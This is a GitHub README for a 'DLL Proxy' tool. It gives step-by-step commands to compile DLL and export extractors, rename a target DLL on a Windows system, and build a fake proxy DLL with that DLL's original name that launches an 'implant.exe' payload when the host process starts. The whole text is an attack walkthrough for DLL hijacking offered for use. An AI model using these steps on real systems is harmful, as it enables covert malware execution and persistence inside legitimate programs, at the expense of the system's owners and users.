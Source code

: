 # DLL Proxy

This project provides a simple method to create a proxy DLL using three main files:

- **dll-extractor.cpp**: Lists all currently loaded DLLs in a running process.

- **function-extractor.cpp**: Extracts the exported functions from DLL.

- **maker.sh**: Adds the extracted functions into a template for creating a fake (proxy) DLL.


# How to Use

**Step 1**  

Compile dll-extractor.cpp and function-extractor.cpp.
```bash
x86_64-w64-mingw32-g++ dll-extractor.cpp -o dll-extractor.exe
```
```bash
x86_64-w64-mingw32-g++ function-extractor.cpp -o function-extractor.exe -ldbghelp
```

**Step 2**  

Transfer the compiled files to a Windows system and run them there.
```cmd
dll-extractor.exe TARGET-PROCSS
```
```cmd
function-extractor.exe c:\PATH\example.dll
```

**Step 3**  

Copy the extracted function names to file.txt.  

![expample file.txt](img/img1.png)

renaming the target DLL(for example, by adding a letter like "1" or "2" to its name in target system).
```cmd
ren c:\PATH\example.dll c:\PATH\example1.dll
```

`-d`: the path to the same DLL that was renamed).
```bash
./maker.sh -d "c:\PATH\example1.dll" -o output.cpp -p "c:\PATH\implant.exe" file.txt
```


Note: If the DLL path contains spaces, make sure to wrap it in double quotes `" "`.

**Step 4**  

Compile output.cpp using the original name DLL `example.dll` and place it next to the original DLL.
After the process is launched,your payload will be executed.


You can also move the original DLL to a different folder, but make sure to define its new path correctly inside maker.sh.
